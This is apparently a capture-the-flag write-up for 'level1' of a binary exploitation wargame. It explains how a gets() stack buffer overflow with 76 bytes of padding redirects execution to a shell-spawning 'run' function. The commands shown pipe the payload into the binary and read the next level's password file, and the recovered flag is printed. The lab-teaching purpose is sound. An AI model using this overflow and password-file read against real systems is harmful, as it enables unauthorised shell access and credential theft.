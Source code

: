 solution level1:

-> we disassemble the main and see that space is allocated on the stack and the method gets is called
...
0x08048486 <+6>:	sub    esp,0x50
0x08048489 <+9>:	lea    eax,[esp+0x10]
0x0804848d <+13>:	mov    DWORD PTR [esp],eax
0x08048490 <+16>:	call   0x8048340 <gets@plt>
...

-> from the man of gets:
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

-> the program has a function called "run", which calls the method system to open a new shell with execution rights

-> we can use the gets method and exploit its vulnerability to buffer overflows. For this, we simply fill the stack until we reach the instruction pointer and replace it with the desired address

-> the buffer is 64 bytes long, and we also have to take into account the stack alignment (8 bytes) and the saved ebp (4 bytes), for a total of 76 bytes

-> so we fill the buffer with 76 bytes, and then add the address of function run, which is 0x08048444 (we reverse to little-endian). This will replace the address in the saved eip with the address of run, effectively calling it when we leave the main

> scp -P 2222 Ressources/run.sh level1@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/overf - | ./level1
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
